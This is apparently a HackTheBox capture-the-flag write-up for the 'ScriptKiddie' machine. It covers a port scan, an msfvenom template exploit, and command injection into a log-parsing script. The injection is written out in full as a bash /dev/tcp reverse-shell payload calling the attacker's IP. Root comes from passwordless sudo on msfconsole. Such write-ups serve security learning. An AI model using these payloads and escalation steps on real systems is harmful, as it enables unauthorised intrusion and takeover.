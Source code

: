 ```yaml
---
title: Scriptkiddie writeup
date: 2022-07-02 15:00:00 +0200
categories: [Writeup, HackTheBox]
tags: ["Easy-box", "metasploit"]     # TAG names should always be lowercase
img_path: /assets/img/boxes/scriptkiddie/
image: # Thumbnail 
  src: ScriptKiddie.png
  width: 1000   # in pixels
  height: 400   # in pixels
---
```


## Summary
This box is centered around command injection in a bash script, an exploit in msfvenom, and exploiting metasploit into getting a root shell. Let's take a look.
## Foothold
We start out by doing an nmap port scan:

```console
┌──(bitis㉿workstation)-[~/htb/Machines/ScriptKiddie]
└─$ nmap -sC -sV 10.129.95.150
Starting Nmap 7.92 ( https://nmap.org ) at 2022-07-02 15:57 CEST
Nmap scan report for 10.129.95.150
Host is up (0.023s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 3c:65:6b:c2:df:b9:9d:62:74:27:a7:b8:a9:d3:25:2c (RSA)
|   256 b9:a1:78:5d:3c:1b:25:e0:3c:ef:67:8d:71:d3:a3:ec (ECDSA)
|_  256 8b:cf:41:82:c6:ac:ef:91:80:37:7c:c9:45:11:e8:43 (ED25519)
5000/tcp open  http    Werkzeug httpd 0.16.1 (Python 3.8.5)
|_http-title: k1d'5 h4ck3r t00l5
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.42 seconds
```
If we go to the web application hosted on port 8000 we are greeted with a very basic page that allows us to work with nmap, searchsploit and msfvenom. 
![](welcome.png) 

Looking up exploits we find the following [exploit](https://www.exploit-db.com/exploits/49491) for msfvenom which gives us RCE on the target system.

We can use the exploit to produce a malicious apk template file for msfvenom. We then setup a listener and get a reverse shell on the system. 

```console
┌──(bitis㉿workstation)-[~/htb/Machines/ScriptKiddie]
└─$ nc -lvnp 1337
listening on [any] 1337 ...
connect to [10.10.14.31] from (UNKNOWN) [10.129.95.150] 51500
id 
uid=1000(kid) gid=1000(kid) groups=1000(kid)
```
## Pivot
Reading `/etc/password` we find another user named `pwn`: 

```console
kid@scriptkiddie:~$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
sshd:x:111:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
kid:x:1000:1000:kid:/home/kid:/bin/bash
pwn:x:1001:1001::/home/pwn:/bin/bash
```
In the users home directory we find a readable script, seen below:
```bash
#!/bin/bash

log=/home/kid/logs/hackers

cd /home/pwn/
cat $log | cut -d' ' -f3- | sort -u | while read ip; do
    sh -c "nmap --top-ports 10 -oN recon/${ip}.nmap ${ip} 2>&1 >/dev/null" &
done

if [[ $(wc -l < $log) -gt 0 ]]; then echo -n > $log; fi
```
The script reads from a file located in the kid users home directory. The script uses a space as a seperator, and the third field is read and used in the script as the variable `ip`. We can use this to inject commands in the script obtaining a reverse shell as the pwn user: `kid@scriptkiddie:~/logs$ echo 'a b $(bash -c "bash -i >& /dev/tcp/10.10.14.31/1337 0>&1")' >> hackers`
```console
┌──(bitis㉿workstation)-[~/htb/Machines/ScriptKiddie]
└─$ nc -lvnp 1337
listening on [any] 1337 ...
connect to [10.10.14.31] from (UNKNOWN) [10.129.95.150] 51688
bash: cannot set terminal process group (862): Inappropriate ioctl for device
bash: no job control in this shell
pwn@scriptkiddie:~$ 
```

## Privilege escalation

Running `sudo -l` we can see that we can run metasploit as sudo without a password:

```console
pwn@scriptkiddie:~$ sudo -l
sudo -l
Matching Defaults entries for pwn on scriptkiddie:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User pwn may run the following commands on scriptkiddie:
    (root) NOPASSWD: /opt/metasploit-framework-6.0.9/msfconsole

```

While in metasploit we can start an interactive ruby session with the `irb` command, which we can then use to spawn a bash shell:

```console
sf6 > irb
stty: 'standard input': Inappropriate ioctl for device
[*] Starting IRB shell...
[*] You are in the "framework" object

system("/bin/bash")
Switch to inspect mode.
irb: warn: can't alias jobs from irb_jobs.
>> system("/bin/bash")
id
uid=0(root) gid=0(root) groups=0(root)
```
Rooted!